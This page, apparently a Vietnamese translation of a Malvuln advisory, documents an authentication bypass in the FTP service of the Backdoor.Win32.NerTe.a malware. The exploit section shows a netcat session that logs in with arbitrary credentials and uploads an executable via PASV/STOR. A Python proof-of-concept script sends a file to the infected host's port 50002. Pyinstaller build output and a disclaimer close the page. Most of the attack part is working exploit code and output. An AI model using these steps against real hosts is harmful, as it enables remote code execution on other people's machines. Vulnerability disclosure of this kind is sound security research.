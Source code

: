 ```yaml
---
title: Backdoor.Win32.NerTe.a / Authentication Bypass RCE
date: 16/7/2021
layout: single
header:
  teaser: /assets/images/madoc.jpg
---
```

## Mô Tả 
Phần mềm độc hại lắng nghe trên các cổng TCP 21, 80 và làm rơi tệp thực thi trong Windows dir. Những kẻ tấn công bên thứ ba có thể tiếp cận hệ thống bị nhiễm có thể đăng nhập bằng bất kỳ tổ hợp tên người dùng / mật khẩu nào. Những kẻ xâm nhập sau đó có thể tải lên các tệp thực thi bằng cách sử dụng lệnh ftp PASV, STOR, điều này có thể dẫn đến việc thực thi mã từ xa.
Loại: PE32

+ Đe doạ: Backdoor.Win32.NerTe.a
+ Lỗ hổng bảo mật: Bỏ qua xác thực RCE
+ MD5: 125364b0cdae80c10f00b75c8e2cfa47
+ ID Vuln: MVID-2021-0285
+ Tệp bị loại bỏ: TaskMonitors.exe
+ Tiết lộ: 07/12/2021
+ Tác giả: malvuln



## Khai thác  
```powershell
Exploit/PoC:
nc64.exe 192.168.18.127 21
220 ICS FTP Server ready.
USER mal
331 Password required for mal.
PASS vuln
230 User mal logged in.
SYST
215 UNIX Type: L8 Internet Component Suite
CDUP
250 CWD command successful. "C:/" is current directory.
PASV
227 Entering Passive Mode (192,168,18,127,195,82).
STOR DOOM.exe
150 Opening data connection for DOOM.exe.
226 File received ok

```


## Mã Kiểm Tra 
[![Language](https://img.shields.io/badge/Lang-Python-blue.svg)](https://www.python.org)

```powershell
pyinstaller --onefile -w file.py
```
```powershell
10139 INFO: checking PKG
10139 INFO: Building PKG because PKG-00.toc is non existent
10139 INFO: Building PKG (CArchive) PKG-00.pkg
11918 INFO: Building PKG (CArchive) PKG-00.pkg completed successfully.
11920 INFO: checking EXE
11920 INFO: Building EXE because EXE-00.toc is non existent
11921 INFO: Building EXE from EXE-00.toc
12000 INFO: Updating manifest in C:\x153\python\build\15\runw.exe.ix_sifg6
12064 INFO: Updating resource type 24 name 1 language 0
12067 INFO: Appending archive to EXE C:\x153\python\python\dist\15.exe
12144 INFO: Building EXE from EXE-00.toc completed successfully.
```
```python
from socket import *

MALWARE_HOST="192.168.18.127"
PORT=50002
DOOM="DOOM.exe"

def doit():
    s=socket(AF_INET, SOCK_STREAM)
    s.connect((MALWARE_HOST, PORT))

    f = open(DOOM, "rb")
    EXE = f.read()
    s.send(EXE)

    while EXE:
        s.send(EXE)
        EXE=f.read()
    
    s.close()
    
    print("Backdoor.Win32.NerTe.a / Authentication Bypass RCE")
    print("MD5: 125364b0cdae80c10f00b75c8e2cfa47")
    print("By Malvuln");

if __name__=="__main__":
    doit()

```
## Cảnh Báo
 Tác giả và người chia sẻ, không chịu trách nhiệm cho bất kỳ việc sử dụng sai thông tin trong tài liệu này và không chịu trách nhiệm cho bất kỳ thiệt hại nào gây ra bởi việc sử dụng hoặc lạm dụng thông tin này. Tác giả nghiêm cấm mọi hành vi sử dụng ác ý thông tin liên quan đến bảo mật hoặc khai thác bởi tác giả hoặc nơi khác. Đừng cố tải xuống các mẫu Phần mềm độc hại. Tác giả của trang web này không chịu trách nhiệm về bất kỳ loại thiệt hại nào xảy ra do xử lý Phần mềm độc hại không đúng cách hoặc việc tải xuống BẤT KỲ Phần mềm độc hại nào được đề cập trên trang web này hoặc ở nơi khác. Tất cả nội dung Bản quyền (c) Malvuln.com (TM).

## Cảm Ơn :D


